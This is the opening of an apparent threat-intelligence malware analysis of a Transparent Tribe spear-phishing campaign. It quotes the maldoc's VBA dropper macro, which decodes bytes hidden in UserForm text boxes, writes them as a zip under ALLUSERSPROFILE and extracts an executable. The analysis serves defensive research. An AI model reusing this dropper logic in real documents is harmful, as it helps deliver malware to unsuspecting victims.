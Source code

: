 # Not as so transparent
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Threat Intelligence](#Intel)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [Yara Rules](#Yara)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [Ressources](#Ressources)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector is from a decoy document probably shared from a spear-phishing (a copy of the content can be viewed <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Pakistan/APT/Transparent%20Tribe/22-01-20/Content_Decoy.txt">here</a>), this document have two links for download additionals informations. The both maldoc , this uses a macro for extract and executes the PE file depends on the version of the operating system.</h6>

```vb
Sub unMoferzip(Fname As Variant, FileNameFolder As Variant)
 Dim FSO As Object
 Dim oApp As Object
 'Extract the files into the Destination folder
 Set oApp = CreateObject("Shell.Application")
 oApp.Namespace(FileNameFolder).CopyHere oApp.Namespace(Fname).items, &H4
End Sub

Sub MoferfileLdr()
 Dim path_Mofer_file As String
 Dim file_Mofer_name  As String
 Dim zip_Mofer_file  As Variant
 Dim fldr_Mofer_name  As Variant
 file_Mofer_name = "ulhtagnias"
 fldr_Mofer_name = Environ$("ALLUSERSPROFILE") & "\DeIA-WIR\"
 If Dir(fldr_Mofer_name, vbDirectory) = "" Then
  MkDir (fldr_Mofer_name)
 End If
 zip_Mofer_file = fldr_Mofer_name & file_Mofer_name & ".zip"
 path_Mofer_file = fldr_Mofer_name & file_Mofer_name & ".exe"
 Dim ar1Mofer() As String
 Dim btsMofer() As Byte
 If InStr(Application.System.Version, "6.2") > 0 Or InStr(Application.System.Version, "6.3") > 0 Then
  ar1Mofer = Split(UserForm1.TextBox2.Text, "'")
 Else
  ar1Mofer = Split(UserForm1.TextBox1.Text, "'")
 End If
 Dim linMofer As Double
 linMofer = 0
 For Each vl In ar1Mofer
  ReDim Preserve btsMofer(linMofer)
  btsMofer(linMofer) = CByte(vl)
  linMofer = linMofer + 1
 Next
  Open zip_Mofer_file For Binary Access Write As #2
   Put #2, , btsMofer
 Close #2
 If Len(Dir(path_Mofer_file)) = 0 Then
  Call unMoferzip(zip_Mofer_file, fldr_Mofer_name)
 End If
```
